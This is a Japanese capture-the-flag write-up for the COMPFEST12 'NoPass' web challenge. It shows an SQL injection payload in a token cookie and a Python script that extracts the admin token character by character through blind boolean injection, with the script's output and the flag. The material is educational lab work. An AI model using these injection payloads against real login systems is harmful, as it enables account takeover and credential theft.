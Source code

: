 # NoPass:Web:961pts
Forgets your password! We've already invent secure login system. One account only can log on in one device. The flag is the token of admin.  
P.S: Choose unique username to avoid duplicate.  
128.199.157.172:28337  
Hint  
I think the token is saved in database  

# Solution
アクセスすると[NoPass.html](NoPass.html)がある。  
LoginページではUsernameのみでログインできるようだ。  
Log in | NoPass  
[site.png](site/site.png)  
ただし重複はブロックされるので、adminでのログインはできないようだ。  
abc0123でログインすると、[Dashboard.html](Dashboard.html)と[Flag.html](Flag.html)が表示されるが、flagは無いようだ。  
cookieに以下のtokenが入っていた。  
```text
jv4hdNnATkfkHba1NIfl7PWq9tF2mQbY
```
tokenにシングルクォートを含めるとサーバーエラーが発生した。  
SQLインジェクションを狙って以下を設定する。   
```text
' OR 't' = 't' --
```
すると[Dashboard_admin.html](Dashboard_admin.html)と[Flag_admin.html](Flag_admin.html)が表示されるが、flagは無いようだ。  
ここでflagがadminのtokenだと気付く(問題文に書いてあった)。  
あとは以下のtoooooken.pyで一文字ずつ探せばよい。  
文字列flag.txtが含まれているか否かで正誤判定を行った。  
likeは大文字小文字の区別がないので、substrを使う。  
```python:toooooken.py
import requests

url = "http://128.199.157.172:28337/flag"

flag = "COMPFEST12{"
i = 12

while True:
	for j in "}-0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_":
		cookie = {"token": "' OR username = 'admin' AND substr(token,{},1) ='{}' --".format(i,j)}
		response = requests.get(url=url, cookies=cookie)
		if "flag.txt" in response.text:
			break
	i += 1
	flag += j
	print(flag)
	if j == "}":
		break
```
実行すると以下のようにflagが得られた。  
```bash
$ python toooooken.py
COMPFEST12{e
COMPFEST12{eZ
COMPFEST12{eZs
COMPFEST12{eZsQ
COMPFEST12{eZsQL
COMPFEST12{eZsQLi
COMPFEST12{eZsQLi_
COMPFEST12{eZsQLi_4
COMPFEST12{eZsQLi_4s
COMPFEST12{eZsQLi_4s_
COMPFEST12{eZsQLi_4s_u
COMPFEST12{eZsQLi_4s_us
COMPFEST12{eZsQLi_4s_usU
COMPFEST12{eZsQLi_4s_usUa
COMPFEST12{eZsQLi_4s_usUaL
COMPFEST12{eZsQLi_4s_usUaL_
COMPFEST12{eZsQLi_4s_usUaL__
COMPFEST12{eZsQLi_4s_usUaL__2
COMPFEST12{eZsQLi_4s_usUaL__20
COMPFEST12{eZsQLi_4s_usUaL__203
COMPFEST12{eZsQLi_4s_usUaL__2033
COMPFEST12{eZsQLi_4s_usUaL__20334
COMPFEST12{eZsQLi_4s_usUaL__20334e
COMPFEST12{eZsQLi_4s_usUaL__20334ef
COMPFEST12{eZsQLi_4s_usUaL__20334eff
COMPFEST12{eZsQLi_4s_usUaL__20334eff}
```

## COMPFEST12{eZsQLi_4s_usUaL__20334eff}
